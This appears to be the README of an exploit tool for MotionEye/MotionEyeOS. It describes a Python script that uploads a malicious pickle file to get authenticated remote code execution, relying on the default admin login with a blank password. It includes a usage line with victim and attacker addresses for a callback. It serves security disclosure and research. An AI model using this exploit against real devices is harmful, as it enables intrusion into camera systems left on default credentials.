 # MotionEye/MotionEyeOS Authenticated RCE
A Python 3 script that uploads a tasks.pickle file that enables RCE in MotionEye. You need administrator credentials, so it should not be that big of a deal. Unfortunately, MotionEye/MotionEye tend to be ran with default credentials. 

Example:

main.py --victim 192.168.1.2 --attacker 192.168.1.3:4444

Where victim and attacker are in the form of ip:port, unless it is port 80. Then, the port can be excluded. This uses the default username of admin with a blank password. There are also CLI options for alternate usernames/passwords. Please see the code for more details. 

See https://www.pizzapower.me/2021/10/09/self-hosted-security-part-1-motioneye for a writeup on this and other issues. 
